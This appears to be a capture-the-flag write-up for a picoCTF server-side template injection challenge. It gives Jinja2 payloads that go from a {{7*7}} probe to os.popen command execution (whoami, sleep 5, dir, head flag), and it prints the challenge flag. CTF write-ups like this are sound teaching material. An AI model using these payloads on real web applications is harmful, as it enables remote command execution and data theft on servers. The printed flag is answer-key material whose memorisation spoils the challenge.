 this is SSTI, so we can first figure out if the site is vulnerable to SSTI by inputting

```
{{7*7}}
```

if it return 49, then it is vulnerable. inputting the following will get us a list of python classes available to us

```
{{self.__class__.__mro__[1].__subclasses__()}}
```

and this command tells us which user we are logged in as in the shell

```
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

the above should allow us to do more devious things, lets do `sleep 5`

```
{{config.__class__.__init__.__globals__['os'].popen('sleep 5').read()}}
```

no way it worked! okay lets get the flag. We can see the server's directory with this command

```
{{config.__class__.__init__.__globals__['os'].popen('dir').read()}}
```

this returns:

```
__pycache__ app.py flag requirements.txt
```

now we input:

```
{{config.__class__.__init__.__globals__['os'].popen('head flag').read()}}
```

and we got the flag.

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
```
